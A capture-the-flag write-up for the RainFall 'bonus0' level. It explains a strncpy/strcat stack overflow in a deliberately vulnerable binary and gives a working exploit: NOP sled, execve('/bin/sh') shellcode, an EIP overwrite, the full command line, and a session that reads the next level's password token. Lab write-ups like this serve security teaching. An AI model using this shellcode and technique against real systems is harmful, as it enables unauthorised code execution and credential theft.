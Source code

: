# bonus0

## 1. Decompilation with Ghidra

The binary contains three functions with dangerous string handling:

```c
/* Function p() - reads input with prompt */
void p(char *param_dest, const char *prompt)
{
    char *nl;
    char big_read_buffer[4104];

    puts(prompt);
    read(0, big_read_buffer, 0x1000);     /* reads up to 4096 bytes */
    nl = strchr(big_read_buffer, '\n');
    if (nl != NULL) *nl = '\0';
    strncpy(param_dest, big_read_buffer, 0x14); /* copies 20 bytes, may not null-terminate! */
    return;
}

/* Function pp() - builds and concatenates strings */
void pp(char *param_out)
{
    char local_34[20];   /* first_part */
    char local_20[20];   /* second_part */

    p(local_34, " - ");
    p(local_20, " - ");

    strcpy(param_out, local_34);  /* ⚠️ No null-terminator check! */
    
    size_t len = strlen(param_out);
    param_out[len] = ' ';
    param_out[len+1] = '\0';
    
    strcat(param_out, local_20); /* ⚠️ No size check! */
    return;
}

int main(void)
{
    char local_3a[54];  /* output_buffer */
    pp(local_3a);
    puts(local_3a);
    return 0;
}
```

## 2. Analysis of the vulnerability

The vulnerabilities:

1. **Function `p()`: `strncpy` doesn't null-terminate** if source is >= 20 bytes
   - `strncpy(param_dest, big_read_buffer, 0x14)` copies exactly 20 bytes
   - If input is 20+ chars, no `\0` is added to `param_dest`

2. **Function `pp()`: `strcpy` reads beyond buffer** if source not null-terminated
   - `strcpy(param_out, local_34)` copies until finding `\0`
   - If `local_34` has no `\0`, continues reading into `local_20`!

3. **Function `pp()`: `strcat` has no bounds checking**
   - Can overflow `param_out` (54 bytes max in main)

Stack layout in `pp()`:

```text
High addresses
─────────────────────────────
[return address to main]  ← TARGET 🎯
[saved EBP]
[local_34: 20 bytes]     ← first input (first_part)
[local_20: 20 bytes]     ← second input (second_part)
─────────────────────────────
Low addresses
```

## 3. Finding the exploit strategy

Strategy:

1. **First input**: Send exactly 20 characters (no newline counted)
   - `p()` copies 20 bytes with `strncpy` → **no null terminator**
   - `local_34` = `[20 chars, no \0]`

2. **Second input**: Send payload to overflow
   - `local_20` = our controlled data

3. **In `pp()`**:
   - `strcpy(param_out, local_34)` copies 20 bytes + continues reading
   - Reads into `local_20` until finding `\0`
   - `strlen(param_out)` returns wrong length
   - `strcat(param_out, local_20)` appends more data
   - **Overflow occurs and overwrites saved EIP!**

### Finding the offset to EIP

```bash
gdb ./bonus0
(gdb) run
# Input 1: AAAAAAAAAAAAAAAAAAAA (20 A's)
# Input 2: BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL

# Program received signal SIGSEGV, Segmentation fault.
# 0x43434343 in ?? ()
```

**EIP = 0x43434343 = "CCCC"** → offset = **9 bytes** from start of second input

### Finding the buffer address in p()

The function `p()` has a large buffer[4096] where we can store our shellcode:

```bash
gdb ./bonus0
(gdb) set disassembly-flavor intel
(gdb) disass p
# Find: lea eax,[ebp-0x1008]  at offset +28 (0x080484d0)

(gdb) b *0x080484d0
(gdb) run
# Input 1: (any input)

(gdb) x $ebp-0x1008
# Result: 0xbfffe590  ← buffer address
```

### Calculate shellcode address

```
Buffer address:      0xbfffe590
+ 61 bytes:          0xbfffe5cd  (skip copied arguments)
+ 40 bytes:          0xbfffe5f5  ← Target address (middle of NOPs)
```

## 4. Exploitation

Memory layout of the exploit:

```text
p() function buffer[4096]:
┌─────────────────────────────────────────────────────────┐
│ [100 NOPs] + [shellcode (28 bytes)] + [unused space]   │
│  └─ 0xbfffe590                    └─ 0xbfffe5f8         │
└─────────────────────────────────────────────────────────┘
                      ↑
                      Target: 0xbfffe5f5 (middle of NOPs)

pp() function stack:
┌─────────────────────────────────┐
│ local_20[20]  ← Input 2         │
│ local_34[20]  ← Input 1         │
│ saved EBP                       │
│ saved EIP     ← Overwritten! 🎯 │
└─────────────────────────────────┘
```

Payload structure:

**Input 1:** 100 NOPs + shellcode

```python
"\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

**Input 2:** Offset (9 bytes) + Target address (4 bytes) + Padding (7 bytes)

```python
"A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7
```

Full exploitation command:

```bash
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

Execution flow:

1. First `p()` call: Reads input1, fills buffer[4096] with NOPs + shellcode
2. `strncpy(local_34, buffer, 20)` copies 20 NOPs **without null terminator**
3. Second `p()` call: Fills buffer[4096] with input2
4. `strncpy(local_20, buffer, 20)` copies: `"AAAAAAAAA\xf5\xe5\xff\xbf..."`
5. `strcpy(param_out, local_34)` copies 20 bytes + continues into `local_20`
6. `strcat(param_out, local_20)` causes overflow, overwrites saved EIP with `0xbfffe5f5`
7. `pp()` returns, jumps to `0xbfffe5f5` (middle of NOPs)
8. CPU slides through NOPs to shellcode
9. Shellcode executes: `execve("/bin/sh")` 🎉

Full exploitation session:

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7'; cat) | ./bonus0
 - 
 - 
AAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## 5. Token discovered

The token is: `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
